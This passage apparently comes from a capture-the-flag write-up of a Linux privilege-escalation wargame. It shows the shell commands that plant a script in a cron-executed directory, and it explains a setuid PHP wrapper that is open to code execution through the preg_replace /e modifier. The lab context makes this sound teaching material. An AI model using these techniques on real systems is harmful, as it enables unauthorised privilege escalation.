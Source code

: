 ```shell
#!/bin/sh
for i in /opt/openarenaserver/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```
This script finds all the files found in `/opt/openarenaserver/*`, executes them, and removes them.

We will craft a script to exploit this vulnerability.
Our aim is for the cron job to run the getflag command and then broadcast the output to all users' terminals, meaning our terminal, using the wall command.

```shell
echo '#!/bin/sh' > /opt/openarenaserver/exploit.sh
echo 'getflag | wall' >> /opt/openarenaserver/exploit.sh
chmod +x /opt/openarenaserver/exploit.sh
```

## level06

This level took way longer than it should have.

There is a PHP script `level06.php` and a binary executable `level06`. Both programs have the same behavior so we assumed (correctly) that `level06` is just a wrapper around `level06.php` with the setuid bit set in the permissions to execute as `flag06`. 

The first step was to prettify the code.

```php
#!/usr/bin/php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

`/e` is a deprecated PHP regex feature which, instead of replacing some text by another, replaces the first argument by the execution of the second argument. It was rapidly clear that it was the only attack vector. So we can reduce the code to its essentials. (we just have to keep in mind that the real program requires a dummy second argument)
